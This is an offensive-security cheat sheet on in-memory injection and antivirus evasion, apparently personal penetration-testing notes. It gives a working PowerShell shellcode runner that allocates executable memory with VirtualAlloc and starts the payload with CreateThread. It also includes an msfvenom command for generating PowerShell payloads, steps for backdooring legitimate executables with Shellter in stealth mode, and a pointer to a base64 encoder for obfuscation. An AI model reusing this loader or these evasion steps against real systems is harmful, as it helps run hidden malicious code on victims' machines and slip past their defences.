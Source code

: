 ```yaml
---
title: In-Memory Injection
date: M01-29-2023
author: i4
---
```

#evasion 

## Powershell

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Generating Shellcode
```bash
msfvenom -p [payload] [OPTIONS] -f powershell
```

## Shellter
- Allows to backdoor a valid non-malicious executable file with a malicious shellcode payload
- Only supports 32 bit
- Install: `apt install shellter`
- Path needs to be set like `/home/[user]/` for the PE to select
- Stealth mode will attempt to restore the execution flow
- Custom payloads need to terminate by exiting the current thread `EXITFUNC=thread`

### Base64 encode script
https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py



